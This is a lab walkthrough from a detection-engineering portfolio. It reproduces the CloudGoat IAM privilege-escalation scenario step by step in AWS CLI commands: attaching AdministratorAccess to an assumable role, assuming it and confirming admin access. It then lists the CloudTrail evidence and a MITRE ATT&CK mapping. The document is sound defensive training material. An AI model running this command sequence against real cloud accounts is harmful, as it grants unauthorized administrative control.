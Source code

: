 # 🧪 Attack Walkthrough: IAM Privilege Escalation by Role Attachment

This walkthrough demonstrates an IAM privilege escalation attack from the [CloudGoat](https://github.com/RhinoSecurityLabs/cloudgoat) scenario `iam_privesc_by_attachment`.

---

## 🎯 Objective

Gain administrative access by attaching `AdministratorAccess` to a role (`cg-ec2-mighty-role`) that the low-privileged user (`kerrigan`) can assume.

---

## 🛠️ Environment

- **User:** `kerrigan`
- **Target Role:** `cg-ec2-mighty-role`
- **Region:** `us-east-1`
- **Logging:** Enabled via Terraform (CloudTrail + VPC Flow Logs)

---

## ✅ Step-by-Step Attack

### 1. Export `kerrigan`'s credentials

```bash
export AWS_ACCESS_KEY_ID=AKIA************
export AWS_SECRET_ACCESS_KEY=wJalr*************
export AWS_DEFAULT_REGION=us-east-1
```

### 2. List roles to find target

```bash
aws iam list-roles
```

Look for: `cg-ec2-mighty-role`

---

### 3. Attach Admin Policy to Role

```bash
aws iam attach-role-policy \
  --role-name cg-ec2-mighty-role \
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

> 🎯 This is the **privilege escalation** action.
> It will generate a CloudTrail event for `AttachRolePolicy`.

---

### 4. Assume the Escalated Role

```bash
aws sts assume-role \
  --role-arn arn:aws:iam::<your-account-id>:role/cg-ec2-mighty-role \
  --role-session-name escalate
```

Export the returned credentials:

```bash
export AWS_ACCESS_KEY_ID=<AccessKeyId>
export AWS_SECRET_ACCESS_KEY=<SecretAccessKey>
export AWS_SESSION_TOKEN=<SessionToken>
```

---

### 5. Confirm Admin Access

```bash
aws iam list-users
aws ec2 describe-instances
```

✅ If these succeed, you have full admin access.

---

## 📄 CloudTrail Evidence

Check CloudTrail logs (in `us-east-1`) for:

- `eventSource`: `iam.amazonaws.com`
- `eventName`: `AttachRolePolicy`
- `userIdentity.arn`: `arn:aws:iam::<account>:user/kerrigan`

This confirms the escalation was captured by your Terraform-logged environment.

---

## 🧠 MITRE ATT&CK Mapping

| Tactic    | Technique                    | ID       |
|-----------|------------------------------|----------|
| Privilege Escalation | Modify Cloud IAM Role Permissions | T1484.1 |

---

## 📎 Next Step

➡️ [Write the Sigma detection rule](../detections/iam_attach_policy_escalation.yml)

---

*Lab completed as part of my cloud detection engineering portfolio.*
